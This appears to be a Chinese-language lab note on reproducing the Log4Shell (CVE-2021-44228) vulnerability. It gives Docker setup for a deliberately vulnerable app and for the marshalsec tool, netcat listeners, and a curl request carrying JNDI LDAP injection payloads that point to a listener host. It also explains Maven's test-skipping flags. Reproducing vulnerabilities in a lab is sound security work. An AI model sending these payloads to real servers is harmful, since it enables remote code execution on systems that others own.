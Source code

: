# log4j

## 信息
https://github.com/NCSC-NL/log4shell

各产品影响
https://github.com/YfryTchsGD/Log4jAttackSurface

## 复现

[CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ)

```bash
https://github.com/leonjza/log4jpwn
git clone git@github.com:leonjza/log4jpwn.git
docker build -t log4jpwn .
docker run --rm -p8080:8080 log4jpwn
  java -jar target/log4jpwn-1.0-SNAPSHOT-jar-with-dependencies.jar
nc -lnvp 8888
curl -v -H 'User-Agent: ${jndi:ldap://172.17.0.1:8888/a}' 'localhost:8080/${jndi:ldap://172.17.0.1:8888/a}/?pwn=$\{jndi:ldap://172.17.0.1:8888/a\}'
```

[marshalsec](https://github.com/mbechler/marshalsec)

```bash
git clone git@github.com:mbechler/marshalsec.git
mvn clean package -DskipTests.

# https://hub.docker.com/_/maven?tab=tags

docker pull maven:3.8.4-openjdk-8

# https://github.com/christophetd/log4shell-vulnerable-app/blob/main/Dockerfile
FROM openjdk:8u181-jdk-alpine

FROM maven:3.8.4-openjdk-8
COPY . /usr/src/myapp
WORKDIR /usr/src/myapp
RUN mvn clean package -DskipTests
RUN mvn clean package -Dmaven.test.skip=true

docker build -t marshalsec .
nc -lnvp 9999
```

[maven跳过单元测试-maven.test.skip和skipTests的区别](https://www.cnblogs.com/javabg/p/8026881.html)
-DskipTests，不执行测试用例，但编译测试用例类生成相应的class文件至target/test-classes下。
-Dmaven.test.skip=true，不执行测试用例，也不编译测试用例类。
一 使用maven.test.skip，不但跳过单元测试的运行，也跳过测试代码的编译。
